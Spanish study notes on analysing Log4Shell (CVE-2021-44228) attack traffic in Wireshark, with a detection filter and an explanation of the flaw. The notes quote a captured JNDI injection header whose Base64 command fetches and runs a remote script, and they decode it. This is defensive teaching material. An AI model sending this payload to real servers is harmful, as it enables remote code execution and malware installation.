
## Analyzing a Log4j Exploit with Wireshark (and how to filter for it) // Sample PCAP! BY Chris Greer
https://www.youtube.com/watch?v=O7VWtFtDvRg

## Ejemplo de Log4j en Wireshark
- Wireshark Room: Traffic Analysis -->http.cap
- Fichero que se adjunta en el vídeo de youtube.

# Log4Shell - Log4j
El ataque que explota la vulnerabilidad Log4j, conocido como "Log4Shell", es un tipo de vulnerabilidad de ejecución remota de código (RCE, Remote Code Execution). Esta vulnerabilidad se encuentra en la biblioteca de registro Log4j de Apache, que es ampliamente utilizada en aplicaciones Java.

La vulnerabilidad Log4Shell permite a un atacante remoto ejecutar código arbitrario en el servidor afectado simplemente enviando cadenas de texto especialmente diseñadas que son procesadas por Log4j. Estas cadenas maliciosas suelen ser enviadas a través de entradas de usuario que pueden ser registradas por Log4j, como cabeceras HTTP, mensajes de correo electrónico, o entradas de formularios web. Cuando Log4j procesa una cadena que incluye una referencia JNDI maliciosa a un servidor LDAP controlado por el atacante, el servidor vulnerable puede ejecutar código Java arbitrario suministrado por el atacante.

La gravedad de esta vulnerabilidad radica en la capacidad de los atacantes para ejecutar código de manera remota sin autenticación previa, lo que les permite tomar control total de los sistemas afectados, acceder a datos sensibles, instalar malware, y propagar el ataque dentro de redes corporativas.

La vulnerabilidad Log4Shell fue asignada con el identificador **CVE-2021-44228 y se considera crítica**. Su descubrimiento a finales de 2021 llevó a una respuesta urgente de la comunidad de ciberseguridad, con actualizaciones y parches emitidos rápidamente para mitigar el riesgo de explotación.


La vulnerabilidad de Log4j, se ajusta perfectamente a la **categoría A06:2021 - Componentes Vulnerables y Desactualizados del OWASP Top Ten 2021**. Esta categoría se centra en los riesgos asociados con el uso de componentes de software con conocidas vulnerabilidades de seguridad sin las debidas actualizaciones o parches. En el caso de Log4j, la biblioteca afectada por esta vulnerabilidad crítica es un componente de software ampliamente utilizado en aplicaciones Java para el registro de actividades.

El riesgo de utilizar componentes vulnerables y desactualizados como Log4j sin aplicar los parches de seguridad necesarios es significativo, ya que permite a los atacantes explotar estas vulnerabilidades para realizar ataques de ejecución remota de código, entre otros. Esto subraya la importancia de mantener todos los componentes de software actualizados y aplicar las mejores prácticas de gestión de dependencias y parches de seguridad recomendadas por OWASP y otros organismos de seguridad cibernética.


## Filtro wireshark
```
ip contains jndi
```
El filtro de Wireshark ip contains jndi se utiliza para buscar paquetes cuyo contenido en el nivel IP (Protocolo de Internet) incluye la secuencia de caracteres "jndi". Este tipo de filtro es útil para identificar intentos de explotación o actividad maliciosa relacionada con vulnerabilidades específicas que involucran a JNDI (Java Naming and Directory Interface).

En el contexto de la seguridad informática, "jndi" se ha vuelto particularmente relevante debido a vulnerabilidades como Log4Shell (CVE-2021-44228) en la biblioteca Log4j de Apache, donde un atacante puede inyectar referencias JNDI maliciosas en los registros para ejecutar código arbitrario de forma remota.

Utilizar ip contains jndi como filtro en Wireshark permite detectar paquetes que podrían estar intentando explotar esta clase de vulnerabilidades, mostrando cualquier paquete IP que contenga la cadena "jndi". Sin embargo, es importante tener en cuenta que este filtro podría no ser completamente efectivo para detectar todos los intentos de explotación relacionados con JNDI, ya que los ataques pueden emplear técnicas de ofuscación o codificación que no resultarían en una coincidencia directa con la cadena "jndi" en el nivel IP.

Este filtro sólo funcionará en un ataque al puerto 80 or open web. Pero no funcionará si se ataca el puerto 443 o una conexión TLS, ya que no podemos ver el texto en claro.



![](capturas/wireshark-http-analysis.png)



## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```


### Analizamos la web que nos aparece con Virustotal
IP: 62.210.130.250
![](capturas/virustotal.png)




